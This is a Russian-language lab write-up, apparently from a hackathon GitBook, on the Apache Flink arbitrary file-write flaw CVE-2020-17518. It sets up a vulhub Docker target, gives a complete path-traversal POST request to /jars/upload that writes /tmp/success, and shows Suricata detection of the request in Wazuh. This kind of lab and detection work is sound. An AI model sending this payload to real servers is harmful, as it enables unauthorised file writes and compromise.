 # CVE-2020-17518

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-17518](https://nvd.nist.gov/vuln/detail/CVE-2020-17518)
* [https://www.opencve.io/cve/CVE-2020-17518](https://www.opencve.io/cve/CVE-2020-17518)
* [https://www.programmersought.com/article/236511184567/](https://www.programmersought.com/article/236511184567/)

Apache Flink - это фреймворк для обработки потоков с открытым исходным кодом, обладающий мощными возможностями потоковой и пакетной обработки.

В Apache Flink 1.5.1 появился REST-обработчик, позволяющий записать загруженный файл в произвольное место локальной файловой системы через злонамеренно измененный HTTP HEADER.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/flink/CVE-2020-17518

Для запуска узявимой среды выполните команду

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8081 будет доступна домашняя страница Apache Flink

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Для эксплуатации уязвимости отправьте соответствующий POST-запрос:

```
POST /jars/upload HTTP/1.1
Host: ваш-ip:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

После его отправки будет на машине будет создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть, что Suricata детектирует действия как эксплуатацию CVE-2021-1499

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
